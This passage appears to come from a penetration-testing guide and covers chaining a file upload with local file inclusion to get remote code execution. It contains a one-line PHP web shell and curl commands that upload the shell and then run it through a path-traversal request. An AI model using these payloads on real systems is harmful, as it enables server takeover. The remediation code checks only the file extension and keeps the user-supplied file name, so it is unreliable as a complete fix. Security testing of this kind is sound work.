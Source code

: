**Tip**: Save cURL responses and screenshots of exploited outputs. Organize findings in a report with timestamps and evidence of vulnerabilities.

### 15. Test Exploit Chaining (File Upload + LFI to RCE)

**Objective**: Evaluate escalation from file upload and LFI to remote code execution (RCE).

**Steps**:
1. Identify a file upload endpoint (e.g., `upload.php`).
2. Upload a malicious file (with permission):
   ```bash
   curl -i -F "file=@malicious.php" http://example.com/upload.php
   ```
   Content of `malicious.php`:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
3. Test LFI to include the uploaded file:
   ```bash
   curl -i "http://example.com/index.php?file=../../uploads/malicious.php&cmd=whoami"
   ```
4. Analyze responses; expected secure response blocks file inclusion or execution.

**Example Secure Response**:
```
HTTP/1.1 403 Forbidden
Content-Type: text/html
<h1>Access Denied</h1>
<p>File inclusion restricted.</p>
```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
Content-Type: text/html
www-data
```

**Remediation**:
- Validate uploads and restrict inclusions (PHP):
  ```php
  <?php
  $file = $_FILES['file']['name'];
  if (!preg_match('/\.(jpg|png|pdf)$/', $file)) {
      http_response_code(403);
      echo json_encode(['error' => 'Invalid file type']);
      exit;
  }
  move_uploaded_file($_FILES['file']['tmp_name'], "Uploads/$file");
  ?>
  ```

**Tip**: Save cURL responses and screenshots of RCE outputs. Organize findings in a report with timestamps and evidence of vulnerabilities.
